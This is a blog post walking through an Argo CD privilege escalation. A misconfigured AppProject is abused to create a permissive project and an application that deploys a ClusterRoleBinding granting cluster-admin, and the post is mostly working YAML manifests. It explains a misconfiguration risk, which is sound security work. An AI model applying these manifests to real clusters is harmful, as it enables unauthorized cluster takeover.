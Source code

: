 ```yaml
---
layout: post
title: Argo CD Privesc Example Walk Through
date: 2021-05-19 16:00:00 +09:00
tags: security
---
```




My [Argo CD Privilege Escalations post](/2021/05/19/argo-cd-privilege-escalations/) describes some privilege escalation possibilities, if Argo CD projects are not configured securely. In this post I'll show a complete walkthrough on abusing one of these possible misconfigurations.

<!--break-->

# Given

Given an `AppProject` that forbids cluster resources entirely and namespace resources from `rbac.authorization.k8s.io/v1` ruling out `Role`, `RoleBinding` etc.:

{% highlight yaml %}
apiVersion: argoproj.io/v1alpha1
kind: AppProject
metadata:
  name: vulnerable-project
  namespace: argocd
spec:
  description: Example Project
  sourceRepos:
  - "*"
  destinations:
  - namespace: "*"
    server: https://kubernetes.default.svc
  clusterResourceBlacklist:
  - group: "*"
    kind: "*"
  namespaceResourceBlacklist:
  - group: rbac.authorization.k8s.io/v1
    kind: "*"
{% endhighlight %}

# Goal

The goal is to get `cluster-admin` over the cluster.

# How to

Since Argo CD `AppProject` and `Application` objects are allowed, we will use those. First we will need an application that will deploy our yaml files:

{% highlight yaml %}
apiVersion: argoproj.io/v1alpha1
kind: Application
metadata:
  name: gotta-pwn-em-all-prepare-app
  namespace: argocd
spec:
  project: vulnerable-project
  source:
    repoURL: https://github.com/my-team/my-team-apps.git
    targetRevision: HEAD
    path: manifest/gotta-pwn-em-all-prepare
  destination:
    server: https://kubernetes.default.svc
    namespace: argocd
{% endhighlight %}

The next files will be created in the `https://github.com/my-team/my-team-apps` repo under `manifest/gotta-pwn-em-all-prepare/`. Let's make a super permissive `AppProject` here (the only restriction is that it will only deploy things from our team's repo to prevent other's abusing this):

{% highlight yaml %}
apiVersion: argoproj.io/v1alpha1
kind: AppProject
metadata:
  name: gotta-pwn-em-all-project
  namespace: argocd
spec:
  description: Privilege Escalation Testing Project
  sourceRepos:
  - https://github.com/my-team/my-team-apps.git
  destinations:
  - namespace: "*"
    server: "*"
  clusterResourceWhitelist:
  - group: "*"
    kind: "*"
  namespaceResourceWhitelist:
  - group: "*"
    kind: "*"
{% endhighlight %}

We will also need an `Application` that uses this project. We can make it with the other `Applications` or in the same folder as the above `AppProject`:

{% highlight yaml %}
apiVersion: argoproj.io/v1alpha1
kind: Application
metadata:
  name: gotta-pwn-em-all-execute-app
  namespace: argocd
spec:
  project: gotta-pwn-em-all-project
  source:
    repoURL: https://github.com/my-team/my-team-apps.git
    targetRevision: HEAD
    path: manifest/gotta-pwn-em-all-execute
  destination:
    server: https://kubernetes.default.svc
    namespace: default
{% endhighlight %}


(The app will only have non-namespace resources, so the `namespace` in `destination` doesn't matter.) In the `manifest/gotta-pwn-em-all-execute/` folder, let's make the thing we actually want to be deployed:

{% highlight yaml %}
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: gotta-pwn-em-all-clusteradmin
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: cluster-admin
subjects:
  - kind: User
    name: oidc:johnsmith
  - kind: Group
    name: oidc:security-team
{% endhighlight %}

So in the end you should have these files (assuming the files are named like the objects in them):

{% highlight yaml %}
https://github.com/my-team/my-team-apps:
  ↳ applications/
    - gotta-pwn-em-all-prepare-app.yaml
  ↳ manifest/
    ↳ gotta-pwn-em-all-prepare/
      - gotta-pwn-em-all-project.yaml
      - gotta-pwn-em-all-execute-app.yaml
    ↳ gotta-pwn-em-all-execute/
      - gotta-pwn-em-all-clusteradmin.yaml
{% endhighlight %}
